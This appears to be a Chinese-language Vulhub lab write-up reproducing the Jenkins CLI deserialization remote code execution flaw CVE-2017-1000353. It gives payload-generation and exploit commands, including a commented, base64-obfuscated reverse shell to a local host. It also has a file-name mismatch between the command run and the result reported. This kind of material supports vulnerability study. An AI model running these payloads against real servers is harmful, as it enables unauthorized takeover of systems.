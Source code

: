 # Jenkins-CI 远程代码执行漏洞 CVE-2017-1000353

## 漏洞描述

Jenkins 是一个广泛使用的开源自动化服务器。

Jenkins 2.56 及更早版本以及 2.46.1 LTS 及更早版本存在未授权的远程代码执行漏洞。这个未经身份验证的远程代码执行漏洞允许攻击者向 Jenkins CLI 传输序列化的 Java `SignedObject` 对象，该对象会使用新的 `ObjectInputStream` 进行反序列化，从而绕过现有的基于黑名单的保护机制。

参考链接：

- [https://www.jenkins.io/security/advisory/2017-04-26/](https://www.jenkins.io/security/advisory/2017-04-26/)
- [https://www.exploit-db.com/exploits/41965](https://www.exploit-db.com/exploits/41965)

## 环境搭建

Vulhub 执行如下命令启动 jenkins 2.46.1：

```
docker-compose up -d
```

等待服务器完全启动成功后，访问 `http://your-ip:8080` 即可看到 jenkins 已成功运行，无需手工安装。

## 漏洞复现

漏洞利用过程分为两个步骤：生成恶意序列化载荷，并将其发送至目标 Jenkins 服务器。

首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。这个工具将创建一个包含我们命令的序列化对象：

```shell
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/awesome_poc"
# jenkins_poc.ser 是生成的输出文件名
# "touch ..." 是要执行的命令

# REVERSE SHELL
# java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar revshell.ser "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}"
```

**注意**：生成 payload 时的 Java 版本很重要，建议使用 OpenJDK 8u292 版本。其他版本的 Java 可能导致生成的 payload 无法成功利用。如果遇到问题，可以使用以下命令在 Docker 中生成 payload：

```shell
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/awesome_poc\""
```

执行上述命令后，将生成一个名为 `jenkins_poc.ser` 的文件，其中包含序列化后的 payload。

下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，执行 `python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20250526111839874.png)

进入 docker，发现 `/tmp/success` 成功被创建，说明命令执行漏洞利用成功：

![](images/Jenkins-CI%20远程代码执行漏洞%20CVE-2017-1000353/image-20250526111826279.png)
